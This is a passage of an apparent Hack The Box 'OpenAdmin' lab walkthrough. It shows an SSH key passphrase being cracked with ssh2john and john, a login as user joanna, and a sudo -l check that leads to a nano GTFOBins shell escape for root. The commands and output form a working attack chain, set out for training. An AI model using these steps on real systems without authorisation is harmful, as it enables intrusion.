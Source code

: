 I crack the key using john:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ python /usr/share/john/ssh2john.py id_rsa > id_rsa_hash.txt

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
Session completed

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ john --show id_rsa_hash.txt                                     
id_rsa:bloodninjas

1 password hash cracked, 0 left
```

Now, I can log in as joanna with SSH:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ chmod 600 id_rsa

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ ssh joanna@openadmin.htb -i id_rsa
Enter passphrase for key 'id_rsa':
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```

That worked, now I can work on the privesc for the root user. The first thing I tried is sudo -l:

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

I can open a specific file as sudo without a password in nano. So I searched for a GTFOBin:

[nano | GTFOBins](https://gtfobins.github.io/gtfobins/nano/#shell)

